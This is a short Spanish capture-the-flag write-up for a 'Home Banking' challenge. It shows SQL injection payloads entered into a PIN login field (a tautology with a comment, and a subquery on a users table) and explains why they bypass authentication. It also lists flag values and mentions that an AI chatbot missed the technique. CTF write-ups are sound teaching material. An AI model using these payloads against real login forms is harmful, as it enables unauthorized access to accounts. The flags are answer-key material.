





# Desafío 3 - Home Banking

Y ahí podemos ver que tenemos la flag para pegar en la página 
141e9ea9d1c4ade203ffe3ee03ebff1c 
 
Desafío 3 - Home Banking 
Primero le pasé el problema a chat y me volvió loco mirando el inspeccionar y probando mil 
cosas. Nunca se le ocurrió hacer una sql injection hasta que le tuve que decir (hay que 
practicar eso porque en el evento no te dice la categoría) 
 
Ingrese ‘aa’ por ejemplo pero despues modifico esa línea por la siguiente 
txtPin=' OR (SELECT 1 FROM usuarios LIMIT 1) -- &btnIngresar=Ingresar 
txtPin=' OR (1=1) -- &btnIngresar=Ingresar

Osea basicamente al poner la comilla simple cierro la que abre la bd, luego pongo una 
condición que siempre se cumpla y al comentar anuló toda la otra parte de la consulta 
 
bf58371373e52613ae270d5acf832bad

